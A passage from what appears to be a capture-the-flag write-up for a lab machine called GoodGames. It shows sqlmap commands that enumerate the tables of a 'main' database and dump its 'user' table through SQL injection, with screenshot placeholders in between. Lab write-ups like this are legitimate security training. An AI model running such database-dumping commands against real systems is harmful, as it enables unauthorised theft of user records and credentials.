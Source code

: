 We get `2 databases`. 

<br/> 
<img src="/img/GoodGames_screenshots/Pasted image 20241116131332.png" alt="1" style="width:700px; height:auto;">
<br/>

We can focus on the `main` database as the other  is a common database in  `MYSQL`.    

```bash
 sqlmap -r req  --batch -D main --tables
```

<br/> 
<img src="/img/GoodGames_screenshots/Pasted image 20241116131802.png" alt="1" style="width:700px; height:auto;">
<br/>

We can try to fetch the `user` tables.  

```bash
sqlmap -r req  --batch -D main -T user --dump
```

<br/> 